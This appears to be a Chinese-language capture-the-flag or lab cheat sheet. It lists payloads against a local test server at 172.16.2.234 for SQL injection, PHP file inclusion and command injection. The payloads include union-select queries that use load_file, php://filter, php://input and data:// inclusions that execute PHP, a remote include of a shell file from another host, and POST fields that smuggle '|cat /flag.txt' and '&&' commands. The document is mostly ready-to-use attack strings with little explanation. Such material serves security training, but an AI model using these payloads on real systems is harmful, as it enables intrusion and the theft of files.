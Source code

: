 ## 常规漏洞 GET flag

#### SQL injection
```
http://172.16.2.234:8011/inject.php?id=1' and 1#
http://172.16.2.234:8011/inject.php?id=1 and 1#
http://172.16.2.234:8011/inject.php?id=1 order by 5#
http://172.16.2.234:8011/inject.php?id=1 order by 3#
http://172.16.2.234:8011/inject.php?id=1 order by 4#

http://172.16.2.234:8011/inject.php?id=-1 union select null# 
http://172.16.2.234:8011/inject.php?id=-1 union select null,null# 
http://172.16.2.234:8011/inject.php?id=-1 union select null,null,null# 

http://172.16.2.234:8011/inject.php?id=-1 union select null,@@version,null#
http://172.16.2.234:8011/inject.php?id=-1 union select null,null,load_file('/flag.txt')#
```

#### 文件包含

常见包含函数有：`include()、require()、include_once()、require_once()`
区别：

include是当代码执行到它的时候才加载文件,发生错误的时候只是给一个警告,然后继续往下执行
require是只要程序一执行就会立即调用文件,发生错误的时候会输出错误信息,并且终止脚本的运行
require一般是用于文件头包含类文件、数据库等等文件,include一般是用于包含html模版文件
`include_once()、require_once()`与(`include\require`)的功能相同,只是区别于当重复调用的时候，它只会调用一次。
```
<?php
include($_GET['filename']);    
?>
```

```
http://172.16.2.234:8011/include.php?filename=info.txt
http://172.16.2.234:8011/include.php?filename=file:///flag.txt

http://172.16.2.234:8011/include.php?filename=php://filter/convert.base64-encode/resource=/flag.txt
//读取到文件的base64编码，可用于读取php文件源码
echo "YmE2YzJkNDgzYjllZTQ5OWIwZjYxZjg4YmJlNGEzYzU="|base64 -d
ba6c2d483b9ee499b0f61f88bbe4a3c5
```
###### 下面的需要allow_url_include=On
```
//远程文件包含
http://172.16.2.234:8011/include.php?filename=[http|https|ftp|smb]://192.168.0.1/shell.txt //(需要allow_url_fopen=On并且 allow_url_include=On)

//php://input
http://172.16.2.234:8011/include.php?filename=php://input
POST: <?php echo file_get_contents("/flag.txt");?>

//data://
http://172.16.2.234:8011/include.php?filename=data://text/plain;base64,base64编码的php代码(不含结束标记?>)
echo '<?php echo file_get_contents("/flag.txt");'|base64
PD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygiL2ZsYWcudHh0Iik7Cg==
http://172.16.2.234:8011/include.php?filename=data://text/plain;base64,PD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygiL2ZsYWcudHh0Iik7Cg==
```

#### 命令执行注入
```
http://172.16.2.234:8011/list.php
POST:ipaddr=/tmp|ls -al

http://172.16.2.234:8011/list.php
POST:ipaddr=/tmp|cat /flag.txt

http://172.16.2.234:8011/list.php
POST:ipaddr=/tmp;cat /flag.txt

//& urlencode>%26
http://172.16.2.234:8011/list.php
POST:ipaddr=/tmp %26 cat /flag.txt
POST:ipaddr=/tmp %26%26 cat /flag.txt
```


